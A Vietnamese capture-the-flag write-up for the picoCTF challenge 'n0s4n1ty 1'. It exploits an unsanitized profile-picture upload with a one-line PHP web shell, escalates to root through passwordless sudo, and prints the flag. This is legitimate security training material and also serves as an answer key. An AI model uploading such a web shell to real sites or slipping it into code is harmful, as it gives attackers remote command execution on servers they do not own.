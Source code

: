 # 🧠 Challenge: n0s4n1ty 1

---

## 📝 **Description**

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

---

## 💡 **Hint**

- `File upload was not sanitized`
- `Whenever you get a shell on a remote machine, check sudo -l`

---

## 🔍 **Initial Analysis**

Khi khởi động challenge, người dùng được cung cấp một giao diện web với chức năng **tải ảnh đại diện**.
![](../img/n0s4n1ty-1.png)
Kiểm tra mã JavaScript phía frontend:

```javascript
var loadFile = function(event) {
    var input = event.target;
    var file = input.files[0];
    var type = file.type;
    var output = document.getElementById('preview_img');

    output.src = URL.createObjectURL(event.target.files[0]);
    output.onload = function() {
        URL.revokeObjectURL(output.src); // free memory
    }
};
```
Đây chỉ là mã preview ảnh, không có cơ chế lọc nội dung file upload, cho thấy khả năng tồn tại lỗ hổng unsanitized file upload.
Kiểm tra sever và web có hoạt động ổn định bằng việc upload thử 1 file ảnh có dung lượng nhỏ:
![](../img/n0s4n1ty-1-test.png)
![](../img/n0s4n1ty-1-test-output.png)
![](../img/n0s4n1ty-1-test-output-img.png)

---
## 🚩 **Exploit: Unsanitized File Upload → Web Shell**

**Tạo 1 file shell php với nội dung:**
```php
<?php system($_GET['cmd']); ?>
```
**Upload file php lên web và truy cập vào đường dẫn http://<host>:<port>/uploads/shell.php?cmd=id** 
> Ta thấy lệnh được thực thi, cho thấy ta có thể **Remote Code Execution.**

Như hint của bài thì ta dùng câu lệnh ``sudo -l`` cho kết quả : 
![](../img/n0s4n1ty-1-payload.png)
> ``User www-data`` → người dùng hiện tại.
> 
> ``may run the following commands`` → được phép chạy...
> 
> ``(ALL)`` → với tư cách bất kỳ user nào (bao gồm cả root).
> 
> ``NOPASSWD`` → không cần nhập mật khẩu khi dùng sudo.
> 
> ``ALL`` → chạy được tất cả lệnh.
>

Kết quả cho ta biết : User hiện tại có thể thực thi mọi lệnh dưới quyền root mà không cần mật khẩu.

Sử dụng câu lệnh : `` sudo ls /root `` 

Trả lại kết quả là : `` flag.txt ``

Tiếp sau đó dùng câu lệnh : `` sudo cat /root/flag.txt `` để đọc file ``flag.txt`` và nhận được flag

### Flag : `` picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0} ``
